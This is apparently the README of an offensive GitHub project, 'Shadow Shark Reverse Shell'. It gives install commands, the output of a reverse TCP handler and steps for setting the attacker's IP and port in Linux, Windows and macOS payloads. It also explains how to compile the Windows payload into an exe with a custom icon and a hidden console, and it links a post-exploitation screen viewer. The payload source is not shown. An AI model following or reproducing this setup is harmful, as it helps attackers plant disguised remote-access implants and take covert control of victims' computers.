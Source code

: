 # Shadow Shark Reverse Shell 
A full fledged reverse TCP payload written in pure python3.

## Installation
### Debian
```
$ sudo apt-get install python3 git
$ cd /opt/
$ sudo git clone https://github.com/MrSharkSpamBot/ShadowSharkReverseShell.git
$ cd ShadowSharkReverseShell/
$ sudo chmod +x ShadowShark
$ sudo cp ShadowShark /usr/bin/
```
### Arch
```
$ sudo pacman -S python git
$ cd /opt/
$ sudo git clone https://github.com/MrSharkSpamBot/ShadowSharkReverseShell.git
$ cd ShadowSharkReverseShell/
$ sudo chmod +x ShadowShark
$ sudo cp ShadowShark /usr/bin/
```

## Usage
### ShadowShark.py
```
$ ShadowShark --help

	                                             ``
	                                       ``-+yhh-
	                                    `:ohNMMMy.                  `.-`
	                                `-ohNMMMMMM:                `.+hNy-
	             ``.-:+osyyyhhhhhdddmMMMMMMMMMm---:::--..``````+dMMMo
	      `:+syhdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNMMMMMo/-`                          ./o+
	  `+ymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMms:`                 `:ohNMd:
	`oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMdo-          -+ymMMMMy-
	 :NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/`  .+hNMMMMMNo.
	  `/+shdmymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNhmMMMMMMMNo`
	  osdhdosydNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNo`
	  sdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMd/`
	   ``:shNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/.
	       ``./ohdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdhhdmNMMMMMMNd+.
	             ``.-:/+osyhdmNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNdhs+-`` ````.:+yhmNMMNh+.
	                       ```.-:/+syyyhhdMMMMMMMMddddddddddddddNMMMMdo/:...``               ```.-/oys:
	                                     `mMMMMMMM``````````````.sNMMh
	                                      -mMMMMMM.               .smMy`
	                                       .yMMMMMh`                `:ys.
	                                         :yNMMMh.
	                                           .odNMm:
	                                             `-/sh:
    
usage: ShadowShark.py [-h] -lh LHOST -lp LPORT -e ENCRYPTION

This tool is a full fledged reverse TCP handler used to interact with Shadow
Shark payloads. Created by Mr. Shark Spam Bot.

optional arguments:
  -h, --help            show this help message and exit
  -lh LHOST, --lhost LHOST
                        Your IP address.
  -lp LPORT, --lport LPORT
                        The port to listen for connections on.
  -e ENCRYPTION, --encryption ENCRYPTION
                        The encryption used for sent and recieved data.
$ ShadowShark --lhost 0.0.0.0 --lport 8080 --encryption hex

	                                             ``
	                                       ``-+yhh-
	                                    `:ohNMMMy.                  `.-`
	                                `-ohNMMMMMM:                `.+hNy-
	             ``.-:+osyyyhhhhhdddmMMMMMMMMMm---:::--..``````+dMMMo
	      `:+syhdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNMMMMMo/-`                          ./o+
	  `+ymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMms:`                 `:ohNMd:
	`oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMdo-          -+ymMMMMy-
	 :NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/`  .+hNMMMMMNo.
	  `/+shdmymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNhmMMMMMMMNo`
	  osdhdosydNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNo`
	  sdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMd/`
	   ``:shNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/.
	       ``./ohdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdhhdmNMMMMMMNd+.
	             ``.-:/+osyhdmNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNdhs+-`` ````.:+yhmNMMNh+.
	                       ```.-:/+syyyhhdMMMMMMMMddddddddddddddNMMMMdo/:...``               ```.-/oys:
	                                     `mMMMMMMM``````````````.sNMMh
	                                      -mMMMMMM.               .smMy`
	                                       .yMMMMMh`                `:ys.
	                                         :yNMMMh.
	                                           .odNMm:
	                                             `-/sh:
    
[*] A reverse TCP handler on 0.0.0.0:8080 has successfully started...
```
### ShadowSharkPayload.py
This payload can run on Linux, Windows, and MacOS. To configure the payload go to line 29 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from.
### UnixPayload.py
This payload can run on any Unix based system. To configure the payload go to line 35 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from.
### WindowsPayload.py
This payload can run on any Windows system. To configure the payload go to line 29 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from.
### Compile.py
This compilation script can only be run on a Windows computer or Wine environment. To configure the compilation script go to line 14 and replace ICON with the icon file you want your exe file to have to have. To do this make sure that the ShadowSharkPayload.py script, your icon file, and the Compile.py script are in the same folder and that py2exe is installed.
```
# First install python3 on your Windows computer or Wine environment.
$ pip install py2exe
$ python Compile.py py2exe
```
### Alternative compilation
```
# First install python3 on your Windows computer or Wine environment.
$ pip install nuitka zstandard
$ nuitka --windows-disable-console --windows-icon-from-ico=icon.ico --onefile WindowsPayload.py
```

## Post Exploitation
<a href="https://github.com/BababooeyHackers/ScreenView">Screen View</a>
